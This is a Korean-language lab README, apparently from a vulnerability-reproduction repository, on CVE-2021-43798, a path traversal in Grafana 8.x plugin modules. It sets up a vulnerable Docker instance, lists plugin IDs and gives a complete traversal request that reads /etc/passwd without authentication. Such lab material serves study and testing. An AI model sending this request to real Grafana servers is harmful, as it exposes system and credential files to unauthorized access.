



# Grafana 8.x 플러그인 모듈 Path Traversal (CVE-2021-43798)

## Grafana 란?
Grafana는 다중 플랫폼 오픈 소스 분석 및 인터랙티브 시각화 웹 애플리케이션입니다.

## 취약점 개요
2021년 12월, 한 트위터 사용자가 0day 취약점을 공개했습니다. 인증되지 않은 공격자는 이 취약점을 이용하여 Grafana 8.x 버전에서 조작된 URL을 통해 웹 경로를 상위 디렉토리로 이동하여 임의의 파일을 다운로드할 수 있습니다.

## 취약한 환경 구성

다음 명령어를 실행하여 Grafana 서버 8.2.6 버전을 시작합니다:

```
docker compose up -d
```

서버가 시작된 후 `http://your-ip:3000` 주소로 로그인 페이지에 접속할 수 있습니다. 이 취약점을 이용하는 데는 별도의 자격 증명이 필요하지 않습니다.

## 익스플로잇 (Exploit)

이 취약점은 플러그인 폴더 내의 정적 파일을 제공하는 플러그인 모듈로 인해 발생합니다. 하지만 경로 검증 부족으로 인해 공격자는 `../` 를 사용하여 플러그인 폴더에서 상위 폴더로 이동하여 임의의 파일을 다운로드할 수 있습니다.

취약점을 이용하려면 유효한 플러그인 ID를 알아야 합니다. 예를 들어 `alertlist` 와 같은 ID가 있습니다. 다음은 일반적인 플러그인 ID 목록입니다:

```
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
```

`/etc/passwd` 파일을 가져오려면 다음 요청을 보냅니다 (`alertlist`는 다른 유효한 플러그인 ID로 대체할 수 있습니다):

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```

## 취약점 확인

1. 도커 컨테이너 시작

2. Grafana 서비스 동작 확인

3. 취약점 실행
